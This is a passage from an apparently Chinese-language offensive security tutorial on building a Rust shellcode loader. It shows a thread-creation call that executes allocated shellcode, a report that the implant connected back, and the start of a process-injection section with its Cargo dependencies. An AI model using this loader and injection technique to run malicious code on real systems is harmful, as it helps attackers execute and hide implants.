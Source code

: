 ```plain
        let thread_exec = CreateThread(std::ptr::null_mut(), 0, Some(std::mem::transmute(mem_alloc)), std::ptr::null_mut(), 0, &mut thread_id);
        WaitForSingleObject(thread_exec, 0xFFFFFFFF);   //等待线程执行
    }
}
```

测试上线成功

[![](assets/1699257255-f9ae1a4a8b197bb11f298b30d0b0c365.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232143-dc6a4506-7b25-1.png)

## 进程注入

上面介绍了shellcode的直接执行，下面我们可以进行进程注入的操作，这里我们多引入一个==sysinfo==的库  
首先还是往==Cargo.toml==引入以下依赖

```plain
sysinfo = "0.29.10"
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory", "Win32_System_Diagnostics_Debug"] }
```
